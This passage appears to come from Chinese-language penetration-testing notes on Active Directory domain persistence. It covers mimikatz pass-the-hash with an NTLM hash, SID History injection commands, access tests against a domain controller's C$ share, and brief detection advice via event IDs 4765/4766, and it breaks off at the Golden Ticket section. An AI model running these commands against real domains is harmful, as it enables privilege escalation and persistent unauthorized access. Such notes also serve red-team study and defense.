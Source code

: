```
比DSRM更为高级的一种方式，知道hash

Mimikatz “privilege::debug” “sekurlsa::pth /domain:ADSDC03 /user:Administrator /ntlm:7c08d63a2f48f045971bc2236ed3f3ac” exit
```

#### SSP 

```
https://syst1m.com/post/security-support-provider/
```

#### SID History域后门
- SID History

```
使A域中的syst1m用户的权限当syst1m用户迁移到B域中时还拥有原来的权限
```

- 查看test用户的SID history属性

```
Import-Moudle activedirectory
Get-ADUser test -Properties sidhistory
```
- 注入sid属性

```
privilege::debug
sid::add /sam:test /new:administrator
```
- 再次查看sid history

```
Get-ADUser test -Properties sidhistory.memberof
```

- 测试

```
dir \\dc\c$
```
- 防御

```
查看域用户sid为500的用户
完成迁移后，对相同500检测
定期检查id为4765和4766的日志、ID为4765为sid history属性添加到用户的日志。4766为将sid history属性添加到用户失败的日志
```

#### Golden Ticket(黄金票据)
- 环境

```
域控：192.168.100.205
域成员:192.168.100.146
```
- 导出krbtgt的ntlm hash
